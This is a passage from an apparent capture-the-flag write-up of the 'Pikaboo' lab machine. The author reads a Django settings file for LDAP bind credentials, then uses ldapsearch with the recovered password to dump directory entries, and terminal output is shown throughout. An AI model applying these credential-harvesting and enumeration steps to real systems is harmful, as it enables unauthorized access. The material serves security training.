 ```text
www-data@pikaboo:/$ ls -l /opt/pokeapi/config
-rwxr-xr-x 1 root root    0 Jul  6 20:17 __init__.py
drwxr-xr-x 2 root root 4096 Jul  6 16:10 __pycache__
-rw-r--r-- 1 root root  783 Jul  6 20:17 docker-compose.py
-rwxr-xr-x 1 root root  548 Jul  6 20:17 docker.py
-rwxr-xr-x 1 root root  314 Jul  6 20:17 local.py
-rwxr-xr-x 1 root root 3080 Jul  6 20:17 settings.py
-rwxr-xr-x 1 root root  181 Jul  6 20:17 urls.py
-rwxr-xr-x 1 root root 1408 Jul  6 20:17 wsgi.py
```

The settings file was useful:

```text
www-data@pikaboo:/$ cat /opt/pokeapi/config/settings.py
<SNIP>
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "<HIDDEN>",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
```

We see an ldap section with credentials, and looking on the box we have ldapsearch available. Using [this](https://docs.oracle.com/cd/E19693-01/819-0997/auto45/index.html) helpful document I found this section:

```text
Returning All Entries
Given the previous information, the following call will return all entries in the directory:

ldapsearch -h myServer -p 5201 -D cn=admin,cn=Administrators,cn=config
 -b "dc=example,dc=com" -s sub "(objectclass=*)"
"(objectclass=*)" is a search filter that matches any ent
```

Which I used with the creds we just found to dump all LDAP entries:

```text
twww-data@pikaboo:/$ ldapsearch -h 127.0.0.1 -p 389 -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -b 'dc=pikaboo,dc=htb' -s sub "(objectClass=*)"
<]g' -b 'dc=pikaboo,dc=htb' -s sub "(objectClass=*)"
# extended LDIF
#
# LDAPv3
# base <dc=pikaboo,dc=htb> with scope subtree
# filter: (objectClass=*)
# requesting: ALL
#

# pikaboo.htb
dn: dc=pikaboo,dc=htb
objectClass: domain
dc: pikaboo

# ftp.pikaboo.htb
dn: dc=ftp,dc=pikaboo,dc=htb
objectClass: domain
dc: ftp
```